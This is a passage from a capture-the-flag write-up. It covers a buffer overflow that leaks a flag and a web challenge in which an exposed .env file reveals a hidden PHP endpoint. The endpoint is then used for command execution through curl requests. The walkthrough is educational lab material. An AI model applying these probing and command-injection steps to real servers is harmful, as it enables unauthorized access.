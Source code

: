 ```bash
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
the flag is flag{m0r3_th4n_72_n1ce!}

Connection closed by foreign host.
```

Ah! Just a plain trivial buffer overflow, and we got the flag, `flag{m0r3_th4n_72_n1ce!}`.

`mluis` did spend some time looking at the binary source code, and found out that there is an signal handler for `SIGSEGV` that prints the flag if any part of the code does an *illegally access or modify memory*, typically caused by *uninitialized or NULL pointer values or by memory overlays*.

## Hidden In the Web

>Set up your toolkit, and get ready to start the audit...
>
>To access the challenge, click on the following link: [http://example.com:10101](http://example.com:10101)

![[Screenshot 2022-12-01 at 12-35-41 Hidden In the Web - hackrocks.png]

So, this time we get a web challenge with greet us with a _under construction_ page. Looking at the source code of the page we get an obvious hint:

```html
<!-- 
Hey Marcus, dont forget to change the permission of environment. thanks!
Sincerely, Adrian
 -->
```

So _Marcus_ must change the permissions to some file. Let's get a dir buster running. But, let's start by the simpliest scan, open [OWASP Zap](https://owasp.org/www-project-zap/) and do a default automatic scan give us an exposed sensitive file, `.env`. The content of that file was juicy, as expected:

```bash
❯ curl 'http://example.com:10101/.env'
PATH=/s3cr3t_3ntr4nce.php
CMD=c0mm
METHOD=GET
```

So we have a path, `s3cr3t_3ntr4nce.php` that gives us command execution! Let's mess around a litte in the folder directory:

```bash
❯ curl 'http://example.com:10101/s3cr3t_3ntr4nce.php?c0mm=ls%20%2F..'
bin
boot
dev
etc
flag.txt
home
lib
...
```

